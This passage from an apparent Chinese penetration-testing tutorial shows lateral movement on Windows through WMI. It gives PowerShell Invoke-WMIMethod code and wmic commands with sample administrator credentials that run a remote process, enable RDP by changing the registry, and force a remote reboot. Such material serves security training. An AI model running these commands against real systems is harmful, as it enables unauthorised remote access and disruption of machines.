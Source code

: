 ![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210902130614.png)

### Invoke-WMIMethod

Invoke-WMIMethod 是 PowerShell 自带的一个模块，也可以用它来连接远程计算机执行命令和指定程序。

```
# 指定目标系统用户名
$User="teamssix.com\administrator"

# 指定目标系统密码
$Password=ConvertTo-SecureString -String "1qaz@WSX" -AsPlainText -Force

# 将账号和密码整合起来，以便导入 Credential中
$Cred=New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password

# 在远程系统中运行 calc.exe 命令
Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -ComputerName "192.168.7.7" -Credential $Cred
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210902131658.png)

可以看到在 192.168.7.7 主机中已经有进程 ID 为 3276 的 calc.exe 被执行了。

### wmic 的其他命令

使用 wmic 远程开启目标的 RDP

```
# 适于 Windows xp、server 2003
wmic /node:192.168.7.7 /user:administrator /password:1qaz@WSX PATH win32_terminalservicesetting WHERE (__Class!="") CALL SetAllowTSConnections 1

# 适于 Windows 7、8、10，server 2008、2012、2016，注意 ServerName 需要改为目标的 hostname
wmic /node:192.168.7.7 /user:administrator /password:1qaz@WSX RDTOGGLE WHERE ServerName='dc' call SetAllowTSConnections 1
或者
wmic /node:192.168.7.7 /user:administrator /password:1qaz@WSX process call create 'cmd.exe /c REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
```

判断 RDP 有没有开可以使用以下命令，如果返回 0 表示开启，返回 1 表示关闭。

```
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

 ![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210902135523.png)

使用 wmic 远程重启目标计算机

```
wmic /node:192.168.7.7 /user:administrator /password:1qaz@WSX process call create "shutdown.exe -r -f -t 0"
```
